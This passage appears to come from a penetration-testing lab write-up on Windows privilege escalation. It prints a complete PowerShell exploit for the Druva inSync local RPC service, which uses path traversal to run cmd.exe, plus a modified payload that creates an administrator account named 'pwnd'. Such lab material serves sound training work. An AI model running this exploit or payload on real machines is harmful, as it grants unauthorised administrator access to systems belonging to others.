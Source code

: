 ```php
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
You can pop a Powershell console and paste the exploit directly to execute it (The exploit is also available in the target machine at `C:\tools\Druva_inSync_exploit.txt`). Note that the exploit's default payload, specified in the `$cmd` variable, will create a user named `pwnd` in the system, but won't assign him administrative privileges, so we will probably want to change the payload for something more useful. For this room, we will change the payload to run the following command:

`net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add`

This will create user `pwnd` with a password of `SimplePass123` and add it to the administrators' group. If the exploit was successful, you should be able to run the following command to verify that the user `pwnd` exists and is part of the administrators' group:

`net user pwnd`

As a last step, you can run a command prompt as administrator:

### 24.png

![App Screenshot](https://github.com/rohit00712/Jr-Penetration-Tester/blob/main/Privilege%20Escalation/Windows%20Privilege%20Escalation/images/24.png)

